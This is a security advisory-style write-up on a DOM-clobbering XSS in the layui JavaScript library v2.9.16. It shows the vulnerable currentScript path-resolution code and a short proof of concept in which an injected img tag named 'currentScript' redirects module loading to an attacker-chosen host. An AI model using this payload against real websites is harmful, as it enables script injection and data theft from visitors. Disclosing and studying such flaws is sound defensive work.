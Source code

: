 ## layui

### Meta

+ Library: layui
+ Stars: 29.5K
+ Version: v2.9.16
+ Fingerprint: `window.LAYUI_GLOBAL  !== undefined`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx">```
+ Impact: XSS
+ CVE: N/A
+ Status: N/A
+ Security Policy: Requested
+ Foundby: TheHulk

### Library

https://github.com/layui/layui

### Vulnerable Code Snippet

```javascript
var doc = win.document;
  var config = {
    modules: {}, // 模块物理路径
    status: {}, // 模块加载状态
    timeout: 10, // 符合规范的模块请求最长等待秒数
    event: {} // 模块自定义事件
  };

  var Layui = function(){
    this.v = '2.9.16'; // Layui 版本号
  };

  // 识别预先可能定义的指定全局对象
  var GLOBAL = win.LAYUI_GLOBAL || {};

  // 获取 layui 所在目录
  var getPath = function(){
    var jsPath = doc.currentScript ? doc.currentScript.src : function(){
      var js = doc.scripts;
      var last = js.length - 1;
      var src;
      for(var i = last; i > 0; i--){
        if(js[i].readyState === 'interactive'){
          src = js[i].src;
          break;
        }
      }
      return src || js[last].src;
    }();

    return config.dir = GLOBAL.dir || jsPath.substring(0, jsPath.lastIndexOf('/') + 1);
  }();
```

## PoC

```html
<!--Library-->
<link href="./layui.css" rel="stylesheet" />
<script src="./layui.js"></script>
<script>
  // Usage
  layui.use(function () {
    var layer = layui.layer;
    // Welcome
    layer.msg("Hello World", { icon: 6 });
  });
</script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="http://localhost:9999">
<!--Payload-->
```